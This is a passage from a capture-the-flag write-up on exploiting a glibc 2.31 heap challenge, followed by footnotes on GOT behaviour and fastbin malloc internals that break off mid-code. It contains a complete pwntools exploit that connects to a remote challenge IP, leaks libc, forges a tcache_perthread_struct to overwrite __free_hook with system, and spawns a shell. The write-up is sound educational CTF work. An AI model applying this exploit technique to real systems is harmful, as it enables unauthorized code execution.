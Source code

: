 ```python
context.libc = 'libc-2.31.so'

r = remote('124.156.183.246', 20000)
context.libc.calc_base('setbuf', unpack_hex(r.recvline()))

def tcache_perthread_struct(fake_ptrs: dict):
    '''fake_ptrs has (address: size) key-pairs'''
    def csize2tidx(x): return (x-1)//16 -1
    TCACHE_MAX_BINS = 0x40

    counts = [0 for _ in range(TCACHE_MAX_BINS)]
    entries = [0 for _ in range(TCACHE_MAX_BINS)]
    for addr,size in fake_ptrs.items():
        tidx = csize2tidx(size)
        counts[tidx] += 1
        entries[tidx] = addr
    return b''.join(map(p16,counts)) + b''.join(map(p64,entries))

SIZE = 0x40 # size of the 2nd allocation
tcache_pointer = 0x7f638ae58530-0x00007f638ac65000+context.libc.address-0x40
fake_tcache = tcache_perthread_struct({context.libc.symbols['__free_hook']-0x8: SIZE})

r.sendafter('Input your message:', fake_tcache)
r.sendafter('Where to write?:', pack(tcache_pointer))
r.sendafter('Any last message?:', b'/bin/sh\0' + pack(context.libc.symbols['system']))

r.interactive()
```
## Footnotes
0. ...which is practically identical what I said at the start of the writeup.
1. You can personally test this by overwriting all the values of `.got.plt` with garbage in `gdb`. The program exits gracefully.
2. Particularly, `__libc_IO_vtables` is useless here, because `main()` is committed to using raw `read()`s and `write()`s, instead of the standard I/O functions provided by libc.
3. The code for fastbin-malloc doesn't do much for us here. (Note that the fastbin_index for `malloc(0x30)` is 2)
    ```c
    #define fastbin_index(sz) ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
    #define fastbin(ar_ptr, idx) ((ar_ptr)->fastbinsY[idx])

    static void *_int_malloc (mstate av, size_t bytes) {
        INTERNAL_SIZE_T nb = ...;         /* normalized request size */
        unsigned int idx = ...;           /* associated bin index */
        mchunkptr victim;                 /* inspected/selected chunk */
        ...
        if (this is a fastbin) {
            idx = fastbin_index (nb);
            mfastbinptr *fb = &fastbin (av, idx);
            mchunkptr pp;
            victim = *fb;
